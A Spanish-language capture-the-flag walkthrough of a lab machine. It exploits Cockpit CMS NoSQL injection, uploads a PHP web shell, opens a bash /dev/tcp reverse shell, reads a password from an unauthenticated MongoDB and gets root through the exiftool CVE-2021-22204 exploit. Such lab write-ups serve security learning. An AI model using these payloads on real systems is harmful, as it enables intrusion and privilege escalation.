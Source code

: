 ### Tags: ``NoSQL``  `RCE` ``exiftool`` ``mongo``

# Escaneo(*22, 80*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/7c1faa27-2654-4b6a-b92e-a3f9f62adda4)

# Port 80

Las web tiene un **panel de login**, intentamos inyecciones SQL pero nada

![image](https://github.com/user-attachments/assets/bb4c2a29-4f9e-48c0-834a-bd0bd9988ba0)

Haciendo `Ctrl + u` encontramos la versión del CMS 

![image](https://github.com/user-attachments/assets/2a0d6248-3e8d-477e-b6db-81cf6aa950da)

 Buscando en Google --> [Link](https://swarm.ptsecurity.com/rce-cockpit-cms/) encontramos que este CMS cockpit tiene algunas **vulnerabilidades** ``NoSQL`` que se pueden utilizar para volcar la **información de los usuarios**, lo que hacemos es interceptar la petición con `BurpSuite`

 ![image](https://github.com/user-attachments/assets/eca60d91-558f-4947-b6c7-2395ccc75ff0)

- Ahora vemos que genera un **token CSFR** para la autenticación y podemos ver los **nombres de usuarios** usando el operador ``$func`` de la biblioteca MongoLite. 
	- Obtuvimos 4 nombres de usuarios 

![image](https://github.com/user-attachments/assets/bbe75d12-f0ef-44b6-8891-9149c4740144)

# Inyección NoSQL en */auth/resetpassword*

Ahora la funcionalidad de restablecimiento de contraseñas se realiza mediante restablecimientos de token en `/auth/resetpassword`:

![image](https://github.com/user-attachments/assets/3ef995dd-7e5d-4828-ad92-0a88bb8fe42e)

###  Compromiso de cuenta de usuario

Ahora puedo volcar las credenciales del usuario cuyo token se ha creado ingresando a `/auth/newpassword` el token:

![image](https://github.com/user-attachments/assets/9a0c494c-2c5c-4273-87c3-f122286d4d3d)

Con estos datos , ``--->`` nosotros vamos a poder cambiar la contraseña de administrador e iniciar sesión en la página de ``CMSpit``.
	1. Utilizar la aplicación con la clave API.
	2. Obtener por fuerza bruta la contraseña de la cuenta a partir del hash.
	3. Cambiar la contraseña de la cuenta utilizando el `/auth/resetpassword` método:

![image](https://github.com/user-attachments/assets/9985b0b9-fb47-45bc-bc79-3713d4fcc756)


# Dentro de la Web

Como vemos ahora estamos dentro de la web como el usuario `admin:test123`

![image](https://github.com/user-attachments/assets/e6e738ef-338f-45cf-81fe-1b4687079ba0)

## RCE

Una vez dentro de la cuenta de **administrador**, lo que podemos hacer es cargar un shell web utilizando el componente **Finder** estándar de Cockpit para conseguir la ejecución remota de código:

![image](https://github.com/user-attachments/assets/dd53676d-d49f-4f87-acbc-791a6b92676a)

Antes nos creamos este ``shell.php`` en la terminal para después subirlo

```php
<?php
        echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Una ves subido ponemos la `http://<ip>/shell.php?cmd=id`

![image](https://github.com/user-attachments/assets/0c1234fe-de48-4d4a-8c55-0c0ab61d18d6)

Nos mandamos una ReverseShell ---> `http://<ip>/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP>/443 0>%261"`

![image](https://github.com/user-attachments/assets/6db8c1d9-a585-4adb-858a-7b293a970a52)

# Escalada (``stux``)

Con este comando `ss -ntulp`   enumero **puertos internos**  y vemos que en este puerto corre **MONGO**

![image](https://github.com/user-attachments/assets/48b814c7-fd39-43b6-bbed-5af7113e25c4)

Tratamos de conectarnos *sin proporcionar contraseña* y tuvimos éxito, ejecutando `mongo`en la terminal.

![image](https://github.com/user-attachments/assets/25c7c203-7318-4659-929f-dce49a2d1078)

Listamos las bases de datos disponibles con `show dbs`, `use sudoersbak` para acceder, `show collections;` para listar las tabas y por ultimo `db.flag.find();` para leer el contenido de la tabla.

![image](https://github.com/user-attachments/assets/cdf50aef-f631-4412-854d-59c379574357)

Encontramos la contraseña del user `stux:p4ssw0rdhack3d!123`

![image](https://github.com/user-attachments/assets/1648eddc-98df-4e7d-9a16-f8ee37b6c3be)
![image](https://github.com/user-attachments/assets/c265100a-5212-44b3-9e91-a9d19251022b)

# Escalada ``ROOT``

Haciendo `sudo -l` podemos ejecutar **exiftool** como root . ---> (me conecte por ssh como stux porque tuve que reiniciar la máquina)

![image](https://github.com/user-attachments/assets/f8dcaee5-25b1-4c3d-a121-dac6fd1ee980)

Buscando en Google de como escalar a root encontramos este [EnlaceExploit](https://github.com/convisolabs/CVE-2021-22204-exiftool), básicamente lo que tenemos que hacer es:

```ruby
git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
cd CVE-2021-22204-exiftool
```

Una ves clonado y dentro del repo tenes que instalar esto: ``-->`` (si te llega a dar **error** como ami, hace un  `sudo apt-get update` y lo instalas)

```ruby
sudo apt install djvulibre-bin exiftool
```

Ahora lo que haces es en la terminal, **te abrís el archivito** llamado `exploit.py` y editas el script poniendo tu **IP** y el **puerto** de escucha que quieras, una ves hecho eso lo ejecutas en la terminal así:

```bash
python3 exploit.py
```

Automáticamente se te crea una imagen llamada `image.jpg`, lo que haces es transferirte esa imagen a la máquina victima de esta forma:

```bash
#máquina atacante
python3 -m http.server

#máquina víctima
wget http://<IP>/image.jpg
```

Una ves que se transfirió la imagen, abrís otra terminal para ponerte en escucha con `netcat` por el puerto especificado, ejecutas con sudo el binario:

```bash
#máquina atacnte 
nc -nlvp <puerto_especificado>

#máquina víctima
sudo /usr/local/bin/exiftool image.jpg
```

![image](https://github.com/user-attachments/assets/b7948fc2-dec3-4afe-bc7c-93767f79f074)

Y listo somos !**ROOT**!

![image](https://github.com/user-attachments/assets/2f2f323c-2c12-40e9-b24f-643865b8fe27)
















